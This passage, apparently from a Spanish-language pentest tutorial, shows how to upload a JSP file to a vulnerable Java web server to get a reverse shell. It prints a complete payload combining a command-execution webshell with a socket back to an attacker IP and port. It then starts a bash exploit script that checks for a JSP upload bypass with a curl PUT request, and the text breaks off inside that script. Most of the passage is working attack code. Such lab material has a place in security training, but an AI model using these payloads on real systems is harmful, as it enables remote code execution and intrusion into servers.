 ## Autoshell - Reverse Shell

Siguiendo el mismo concepto inyectaremos otro código que en lugar de retornarnos una **webshell** nos retornará una **reverse shell**. El payload a inyectar es el siguiente:

> NOTA: Sustituimos la IP y el puerto **que se encuentran en rojo** por la IP de la máquina atacante y el puerto en el queremos recibir la conexión.
> 

```java
<%@page import="java.lang.*"%><%@page import="java.io.*"%><%@page import="java.net.*"%><%@page import="java.util.*"%><html><head>    <title>jrshell</title></head><body><form METHOD="POST" NAME="myform" ACTION="">    <input TYPE="text" NAME="shell">    <input TYPE="submit" VALUE="Send"></form><pre><% String shellPath = null; try { if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) { shellPath = new String("/bin/sh"); } else { shellPath = new String("cmd.exe"); } } catch( Exception e ){} if (request.getParameter("shell") != null) { out.println("Command: " + request.getParameter("shell") + "\n<BR>"); Process p; if (shellPath.equals("cmd.exe")) p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("shell"));        else            p = Runtime.getRuntime().exec("/bin/sh -c " + request.getParameter("shell"));        OutputStream os = p.getOutputStream();        InputStream in = p.getInputStream();        DataInputStream dis = new DataInputStream(in);        String disr = dis.readLine();        while ( disr != null ) {            out.println(disr);            disr = dis.readLine();        }    } class StreamConnector extends Thread    {        InputStream wz;        OutputStream yr;        StreamConnector( InputStream wz, OutputStream yr ) {            this.wz = wz;            this.yr = yr;        }        public void run()        {            BufferedReader r  = null;            BufferedWriter w = null;            try            {                r  = new BufferedReader(new InputStreamReader(wz));                w = new BufferedWriter(new OutputStreamWriter(yr));                char buffer[] = new char[8192];                int length;                while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 )                {                    w.write( buffer, 0, length );                    w.flush();                }            } catch( Exception e ){}            try            {                if( r != null )                    r.close();                if( w != null )                    w.close();            } catch( Exception e ){}        }    }     try {        Socket socket = new Socket( "**192.168.56.128**", **443** ); Process process = Runtime.getRuntime().exec( shellPath ); new StreamConnector(process.getInputStream(), socket.getOutputStream()).start(); new StreamConnector(socket.getInputStream(), process.getOutputStream()).start(); out.println("port opened on " + socket); } catch( Exception e ) {}%></pre></body></html>
```

Haremos unos cuantos arreglos al payload como escapar los caracteres **“** para encerrar todo el payload entre dobles comillas y así indicar la IP y el puerto de la máquina atacante de manera dinámica. Además hicimos algunos arreglos al exploit anterior para que pueda recibir la conexión inversa con Netcat sin necesidad de manualmente ponernos en escucha en otra terminal.

El exploit final quedaría de la siguiente forma:

```bash
#!/bin/bash

target=$1
rport=$2
attacker=$3
lport=$4

if [[ $1 || $2 || $3 || $4 ]]; then
	echo -e "\n[*] Checking whether target is vulnerable...";
	isvuln=$(curl -X PUT -s http://$target:$rport/check.jsp/ && echo "VULNERABLE")
	if [[ $isvuln -eq "VULNERABLE" ]];then
		
		echo -e "\n[+] $target:$rport vulnerable to JSP Upload Bypass";

```